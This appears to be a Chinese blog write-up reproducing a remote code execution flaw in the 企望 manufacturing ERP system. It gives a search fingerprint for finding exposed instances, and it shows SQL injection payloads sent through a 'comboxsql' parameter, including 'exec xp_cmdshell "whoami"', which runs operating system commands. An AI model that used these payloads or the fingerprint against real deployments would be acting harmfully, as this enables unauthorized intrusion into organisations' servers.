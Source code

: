 ```yaml
---
layout: post
title: 企望制造ERP系统RCE
abbrlink: 2d18cd18eb82418cb42d44a651b23e84
tags: []
categories:
  - 漏洞挖掘与复现
  - web应用
date: 1735135077984
updated: 1735135077984
---
```


##

```python
title="企望制造ERP系统"
icon_hash="2037458993"
```

![1655197176005-34032bd4-03de-40fd-aec0-2d83292d8496.png](/resources/d98096012f774c04995b6d366f4452fc.png)

## burp请求中发现漏洞

通过burp查看其所有的请求，发现有执行数据库语句的请求（较为敏感）

![1655205708445-9041572e-98a4-4444-b706-466d781f1da8.png](/resources/37e50089042e4ce798ef4f89c657a748.png)

通过对其进行sql语句尝试发现为sqlserver数据库，使用xp\_cmdshell可以执行命令

comboxsql=SELECT+@@version

comboxsql=exec xp\_cmdshell "whoami"

![1655205824101-85fd5a32-ea25-416b-94fc-3595960223e2.png](/resources/5a11c5b37b154bd9a035dff6b642d223.png)

![1655205865170-fb64349c-6fc8-489b-9a92-217c851e0a4f.png](/resources/03efd9b88de74440b356d5744a664d2b.png)

## js查找漏洞点

<font style="color:rgb(0, 0, 0);">登录页面，可以搜索一些关键字，比如username，password，sql关键字等</font>

![1655197258199-c6201c0f-0152-4f31-8d0b-cf0cec319be5.png](/resources/a603f60011a4435b9f4ac7a778d2709e.png)

![1655197280392-2e950b20-a41b-4cc3-85d3-5889e4bc6a79.png](/resources/3419f674c38c44528bc590b0b8415721.png)

<font style="color:black;">发现注释了一段sql语句！</font>

<font style="color:black;">跟踪一下这个变量，可以看到这边定义了一个action类</font>

![1655197306985-0afe1144-f327-4058-9a51-ee34dcd379e1.png](/resources/99358e70798b45ce82725c329b50a149.png)

<font style="color:black;">搜索这个action类路径</font>

<font style="color:black;">发现访问方式是通过url拼接的。</font>

![1655197331702-13e33946-92c8-425f-a923-9b3e756c11d8.png](/resources/a42fff209bbe4f5fb3d24a2c54b109af.png)

尝试拼接url访问，<font style="color:rgb(0, 0, 0);">发现可以访问，且有回显。</font>

![1655197377380-3ded600d-b25a-4e19-817c-6d58abfda8d4.png](/resources/9651674c2d4e4cc0b2bff3dd19757f48.png)

<font style="color:rgb(0, 0, 0);">试一试使用js里面注释的sql填入sql语句查version看看</font>

comboxsql=SELECT+@@version

![1655197525486-a1f493a7-d431-4ec2-803e-81dd873aa434.png](/resources/839017fb50ad43b8afbb566c4490a0b9.png)

<font style="color:black;">发现是mssql，尝试exec</font>

comboxsql=exec xp\_cmdshell "whoami"

![1655197617984-83730aba-2020-4230-acaa-5701a0768efc.png](/resources/cc4972a2e3fd45f3b494124b2270c23a.png)

> 更新: 2023-04-22 23:09:43\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/xy54lo>
